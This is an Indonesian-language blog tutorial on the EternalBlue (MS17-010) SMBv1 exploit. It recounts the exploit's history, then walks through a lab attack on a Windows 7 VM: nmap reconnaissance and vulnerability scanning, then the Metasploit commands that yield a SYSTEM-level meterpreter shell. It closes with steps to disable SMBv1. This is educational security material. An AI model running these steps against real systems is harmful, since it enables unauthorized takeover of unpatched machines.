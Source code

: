 ```yaml
---
title: "Eternalblue (MS17-010) - SMBv1's Exploit"
date: 2024-03-21T18:54:33+07:00
draft: false
cover:
  image: "/eternalblue/cover.png"
  alt: 'Eterbalblue (MS17-010)'
  caption: "eternalblue - metasploit"
tags: ["metasploit", "tutorial", "cyber security"]
categories: ["hacking"]
---
```


# Sejarah (Singkat)

Apa itu Eternalblue?

Eternalblue atau oleh Microsoft disebut dengan MS17-010 adalah sebuah [**exploit**](https://en.wikipedia.org/wiki/Exploit_(computer_security)) yang dapat digunakan untuk menyebarkan ***malware*** pada sebuah mesin Windows. Eternalblue adalah eksploit yang pada awalnya ditemukan oleh [NSA (_National Security Agency_) Amerika Serikat](https://www.nsa.gov/) untuk memanfaatkan kerentanan pada SMB v1 (_Server Message Block_ versi 1)  di Windows, terutama pada Windows 7 dan Windows XP.[^1] 

Exploit ini tidak dilaporkan oleh NSA ke pihak Microsoft karena menguntungkan pihak NSA untuk melakukan mata-mata terhadap lawan-lawan politiknya. Ketika NSA mengetahui bahwa ternyata exploit tersebut sudah bocor (dicuri), Microsoft akhirnya mengumumkan *security pacthes* terhadap kerentanan atau *vulnerability* tersebut pada Maret 2017. Exploit tersebut dibocorkan kepada publik oleh sebuah kelompok ***hacker*** bernama [The Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers) pada April 2017. Segera setelah rilisnya exploit tersebut ke publik, pada May 2017, dilaporkan [*ransomware* Wannacry](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack) mulai menginfeksi banyak komputer di seluruh dunia menggunakan exploit Eternalblue tersebut[^2].

# Demo Exploitasi - Offensive

Saya akan memberikan demo eksploitasi kerentanan SMBv1 ini menggunakan exploit Eternalblue (MS17-010) yang sudah terdapat dalam [Metasploit](https://www.metasploit.com/). 
Secara singkat, Metasploit adalah sebuah ***framework*** berbasis [*open-source*](https://en.wikipedia.org/wiki/Open_source) yang digunakan untuk *exploit development* dan *vulnerability research*.
![ss1](/eternalblue/ss1.png)

Kita akan melakukan setidaknya 3 proses untuk melakukan eksploitasi, yaitu
- Recon
- Vulnerability Scanning, dan
- Exploitation

## Recon

Di sini, saya sudah memiliki sebuah mesin VM *(Virtual Machine)* Windows 7 sebagai target yang akan dieksploitasi kerentanan SMB-nya.
Pada tahap ini, kita akan terlebih dahulu melakukan *reconnaissance* atau pemeriksaan (atau dalam bahasa militernya adalah mata-mata) terhadap target yang akan dieskploitasi. 
Hal yang perlu dipastikan dalam tahap dan konteks ini adalah bahwa **_service_ SMBv1 berjalan di mesin target**.
![ss2](/eternalblue/ss2.png)

Saya akan menggunakan [Nmap](https://nmap.org/) untuk melakukan proses recon ini.
```bash
nmap -vv -sV 192.168.0.120 -o result.nmap
```
![ss3](/eternalblue/ss3.png)

Dari hasil Nmap tersebut, kita tahu bahwa _service_ SMB sedang *running*. 

Port *`139`* dan *`445`* adalah port default untuk menjalankan _service_ SMB ini.
![ss4](/eternalblue/ss4.png)

## Vulnerability Scanning

Setelah mengetahui bahwa target mesin tersebut (Windows 7) menjalankan SMB, sekarang, kita akan melakukan _vulnerability scanning_ untuk melihat, apakah SMB tersebut rentan untuk dieksploitasi.

Untuk tahap ini, saya lagi-lagi akan menggunakan Nmap dengan script `smb-vuln-ms17-101.nse` yang juga terdapat di **/usr/share/nmap/scripts**.
```bash
nmap -vv -sV --script=smb-vuln-ms17-010.nse -p139,445 192.168.0.120 -o vuln.nmap
```
![ss8](/eternalblue/ss8.png)
Ya, berdasarkan hasil *scanning* Nmap, kita tahu bahwa *service* SMB tersebut rentan (*vulnerable*) terhadap eksploitasi Eternalblue.

## Exploitation

Sekarang, kita akan melakukan eksploitasi terhadap kerentanan tersebut.
Saya akan menggunakan Metasploit sebagai *tools* dalam melakukan tahap eksploitasi ini. 

Pertama, kita dapat menjalankan Metasploit dengan mengetikkan perintah
```bash
msfconsole -q
```

Selanjutnya, kita akan mencari modul eksploit Eternalblue dan menginputkan IP Address target mesin kita (Windows 7) ke opsi **RHOSTS**.
```bash
msf6> search eternalblue
msf6> use 0
msf6> set rhosts 192.168.0.120
```
![ss9](/eternalblue/ss9.png)

Kita bisa memastikan semua opsi untuk melakukan eksploitasi di modul Eternalblue (MS17-010) ini sudah terpenuhi dengan mengetikkan perintah berikut:
```bash
msf6> options
```
![ss10](/eternalblue/ss10.png)
Lingkaran yang berwarna merah adalah IP target kita (Windows 7). Adapun lingkaran yang berwarna hijau adalah IP mesin *attacker* kita (Kali Linux).

Untuk memulai eksploitasi, kita dapat mengetikkan perintah
```bash
msf6> exploit
```
atau
```bash
msf6> run
```
![ss11](/eternalblue/ss11.png)

Yapp, kita baru saja berhasil mengeksploitasi SMBv1 dengan eskploit Eternalblue (MS17-010)!!!

Ketika kita sudah mendapatkan shell tersebut (meterpreter), kita sebagai *attacker* sudah dapat melakukan apa saja, mulai dari melakukan *screenshot*, *screen recording*, *camera recoding*, dan lain-lain yang pada intinya, kita sudah seperti memiliki atau memegang komputer atau laptop dengan Windows 7 tersebut!

Apalagi, kalau diperhatikan, Eternalblue ini memberikan kita akses shell dengan *privilege* yang tinggi (nt authority\system32) atau root jika di Linux. Artinya, kita benar-benar sudah menguasai mesin korban tersebut.

Dengan melihat kemudahan eksploitasinya dan dampak aksesnya, kita bisa menyimpulkan bahwa eksploit ini sangat berbahaya sekali, bukan?

# Pencegahan - Defensive

Beberapa hal yang dapat kita lakukan sebagai tindakan preventif terhadap exploitasi Eternalblue ini di Windows 7 yaitu:
1. Mematikan *service* SMBv1, apalagi jika kalian tidak sering (atau bahkan) tidak pernah menggunakan *service* ini untuk *file sharing*. 
Cara menonaktifkan SMBv1 dapat dilakukan dengan mengetikkan perintah berikut di Powershell[^3]:
```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" SMB1 -Type DWORD -Value 0 -Force
```
2. Selain itu, kalian juga perlu memastikan Firewall tidak dihidupkan disembarang jaringan, apalagi jaringan publik. Kalau perlu, hidupkan saja firewallnya, baik di *private* maupun di *public network*.
![ss12](/eternalblue/ss12.png)

Ok, sekian dulu untuk tutorial eksploitasi Eternalblue (MS17-010) kali ini.

Terima kasih!


[^1]: https://nordvpn.com/blog/what-is-eternalblue/
[^2]: https://en.wikipedia.org/wiki/EternalBlue
[^3]: https://learn.microsoft.com/id-id/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server
